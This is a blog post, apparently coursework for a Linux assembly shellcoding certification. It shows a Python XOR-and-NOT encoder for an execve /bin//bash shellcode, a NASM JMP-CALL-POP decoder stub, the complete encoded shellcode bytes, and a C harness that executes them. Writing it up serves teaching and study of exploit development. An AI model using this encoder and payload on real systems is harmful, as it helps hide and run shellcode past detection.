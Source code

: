 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-XXXXX

## Assignment#4: What to do ?
For this assignment we have to:
* Create a custom encoding scheme 

Now, let's get to work.
=

 <div style="text-align: justify"> To do this task, I have chosen to use a two step encoding schema. The python code, used for this task, will run through the shellcode provided inside the 'shellcode' variable and then apply its routine on each bit. </div>

As said before, the shellcode will be encoded in two steps:
1) Each bit will be XOR with the 0xAA bit,
2) Then a NOT operation will be done

Below is the python code used to encode the shellcode:
```python
#!/usr/bin/python3
# Python XOR and NOT encoder

# The shellcode used is a basic systemcall to execve
shellcode = b"\x31\xdb\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
encoded_shellcode = ""

print('Shellcode len: {}'.format(len(shellcode)))
print('Encoded shellcode ...')

# Encode the shellcode in two steps:
for x in bytearray(shellcode):
	# XOR encoder part
	# 0xAA is the Byte used to encode
	y = x ^ 0xAA

	# NOT encoder part
	y = ~y
	encoded_shellcode += '{},'.format(hex(y & 0xFF))

# Print an encoded shellcode format
print(encoded_shellcode)
```
Here is the results from the python encoder:
```console
#python3 encoder.py
Shellcode len: 30
Encoded shellcode ...
0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
```

The 'decoder.nasm' file use the famous JUMP-CALL-POP technique to avoid NULL BYTES.

To make it simple:
1) <div style="text-align: justify"> The JUMP PART of the assembly code will first initialize ecx to NULL then move the length of the shellcode inside cl. It will finally jump inside the POP section. </div>
2) The CALL PART will call the 'stage2' of the code by jumping to it and push the 'shellcode' variable on the stack
3) <div style="text-align: justify"> The POP PART will simply pop the 'shellcode' variable inside esi and let the execution continues. The decoding process can start by using the NOT and the XOR operations on each bit of the shellcode. </div>
4) Finally, we jump in and execute the decoded shellcode 

Below is the assembly code used to decode our shellcode then execute it:
```nasm
;A simple NOT and XOR decoder
;Using the JUMP-CALL-POP method

global _start

;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)

;POP PART
stage2:
    pop esi                         ;pop the shellcode inside esi

;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value inside esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed in esi by 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;loop until the cl == 0, which means the shellcode is decoded

    jmp shellcode                   ;Jump to the decoded shellcode and execute it

;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

Let's compile it and get the shellcode from 'decoder.nasm':
```console
#nasm -f elf32 -o decoder.o decoder.nasm
#ld -m elf_i386 -z execstack -o decoder decoder.o
#objdump -d ./decoder |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5"
```

We can now add the newly generated shellcode to the following C code:
```c
#include <stdio.h>
#include <string.h>

// decoder.nasm shellcode is stored here
unsigned char shellcode[] = \
"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5";

int main()
{
	// print the length of the shellcode
	printf("Shellcode Length:  %d\n", strlen(shellcode));
	// convert shellcode to a function
	int (*ret)() = (int(*)())shellcode;
	// execute the shellcode has a function
	ret();

}
```

let's compile and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
#./test_shellcode
```

